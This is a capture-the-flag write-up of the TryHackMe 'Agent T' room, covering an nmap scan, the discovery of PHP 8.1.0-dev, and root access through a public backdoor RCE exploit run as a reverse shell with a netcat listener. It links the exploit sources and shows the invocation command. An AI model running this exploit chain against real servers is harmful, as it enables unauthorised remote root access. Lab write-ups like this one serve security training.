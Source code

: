 ```yaml
---
title: "Agent T WriteUp"
categories: [ctf]
date: 2022/08/07
description: TryHackMe Agent T WriteUp.
---
```


# TryHackMe | Agent T

<p align="center">
  <img src="/img/agent_t_thm/img.png">
</p>

## Scanning && Enumeration

Let's start with the network scan first.



```bash
nmap -sSV --min-rate 1000 -p- -v <ip>

```
A web application is running on port 80. PHP 8.1.0 dev version. Let's look at the web interface.

<p align="center">
  <img src="/img/agent_t_thm/1.png">
</p>

This is the default admin dashboard. I browsed the pages, but i couldn't find any important clue or information.

It made more sense to find exploits suitable for PHP version.

## Exploitation

<p align="center">
  <img src="/img/agent_t_thm/2.png">
</p>

I found the appropriate exploit in exploit-db, but it didn't give me tty access, so i decided not to use the other exploit. Of course the choice is yours.

<p align="center">
  <img src="/img/agent_t_thm/3.png">
</p>

In order to exploit the remote code execution vulnerability, i listened with netcat and gave the necessary addresses and ports to the python script. I finally got the root shell.

```bash

python3 rce.py <dst-ip> <src-ip> <src-port>

```

<p align="center">
  <img src="/img/agent_t_thm/4.png">
</p>

There is no need for any privilege escalation process and we can find it with the find command since it asks for a flag from us.

<p align="center">
  <img src="/img/agent_t_thm/5.png">
</p>

```bash
find / -name *.txt

```

It was that simple. Yes, this is very easy when you do the right enumeration and exploitation.






### Resources

 - [Exploit 1](https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/revshell_php_8.1.0-dev.py "Exploit")
 - [Exploit 2](https://www.exploit-db.com/exploits/49933 "Exploit 2")



